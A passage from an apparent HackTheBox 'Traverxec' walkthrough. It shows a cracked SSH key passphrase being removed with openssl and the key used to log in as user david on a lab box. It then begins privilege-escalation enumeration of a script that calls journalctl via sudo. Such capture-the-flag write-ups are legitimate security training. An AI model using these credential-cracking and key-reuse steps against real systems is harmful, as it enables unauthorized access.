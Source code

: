 ```shell
1g 0:00:00:02 DONE (2021-10-17 19:10) 0.4694g/s 6733Kp/s 6733Kc/s 6733KC/sa6_123..*7¡Vamos!
Session completed
```

The password is `hunter` so we can now decrypt this key and create a copy of the key that's not passphrase protected:
```shell
❯ openssl rsa -in id_rsa -out id_rsa_david
Enter pass phrase for id_rsa:
writing RSA key
```

Alternatively, but not recommended, since you won't have a copy of the decrypted key, is to simply enter the passphrase on prompt:
```shell
ssh -i id_rsa david@10.10.10.165
```

## Shell over SSH

Now that we have the decrypted private key, we can use it to authenticate to the SSH service as the user david:
```shell
❯ ssh -i id_rsa_david david@10.10.10.165
The authenticity of host '10.10.10.165 (10.10.10.165)' can't be established.
ECDSA key fingerprint is SHA256:CiO/pUMzd+6bHnEhA2rAU30QQiNdWOtkEPtJoXnWzVo.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.165' (ECDSA) to the list of known hosts.
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
david@traverxec:~$ id
uid=1000(david) gid=1000(david) groups=1000(david),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
david@traverxec:~$ cut -c-5 user.txt
7db0b
```

# Privilege Escalation: david -> root
## Enumeration

We can start by enumerating the home folder of the current user:
```shell
david@traverxec:~$ ls -lahR
<...snip...>
david@traverxec:~$ cat bin/server-stats.sh
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```
